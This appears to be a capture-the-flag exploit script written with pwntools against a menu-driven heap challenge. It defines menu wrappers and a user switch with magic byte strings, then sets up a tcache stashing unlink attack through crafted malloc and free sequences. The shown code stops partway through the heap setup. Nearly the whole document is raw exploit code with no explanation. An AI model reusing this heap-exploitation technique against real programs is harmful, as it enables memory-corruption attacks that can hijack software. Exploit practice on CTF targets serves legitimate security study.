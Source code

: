 ```bash
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s            : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data        : u32(data.ljust(4, '\x00'))
uu64 = lambda data        : u64(data.ljust(8, '\x00'))


def Menu(cmd):
    sla('Choice: ', str(cmd))

def Add(size, content):
    Menu(1)
    sla('size: ', str(size))
    sla('message: ', content)

def Show(idx):
    Menu(2)
    sla('index: ', str(idx))

def Edit(idx, content):
    Menu(3)
    sla('index: ', str(idx))
    sa('message: ', content)

def Del(idx):
    Menu(4)
    sla('index: ', str(idx))

def Change(user):
    Menu(5)
    if user == 1:
        sla('user:\n', 'A\x01\x95\xc9\x1c')
    elif user == 2:
        sla('user:\n', 'B\x01\x87\xc3\x19')
    elif user == 3:
        sla('user:\n', 'C\x01\xf7\x3c\x32')


#----- prepare tcache_stashing_unlink_attack
Change(2)
for x in xrange(5):
    Add(0x90, 'B'*0x28) # B0~B4
    Del(x)    # B0~B4

Change(1)
Add(0x150, 'A'*0x68) # A0
for x in xrange(7):
    Add(0x150, 'A'*0x68) # A1~A7
    Del(1+x)
Del(0)

Change(2)
Add(0xb0, 'B'*0x28) # B5 split 0x160 to 0xc0 and 0xa0

Change(1)
Add(0x180, 'A'*0x78) # A8
for x in xrange(7):
    Add(0x180, 'A'*0x78) # A9~A15
    Del(9+x)
Del(8)

Change(2)
Add(0xe0, 'B'*0x38) # B6 split 0x190 to 0xf0 and 0xa0

```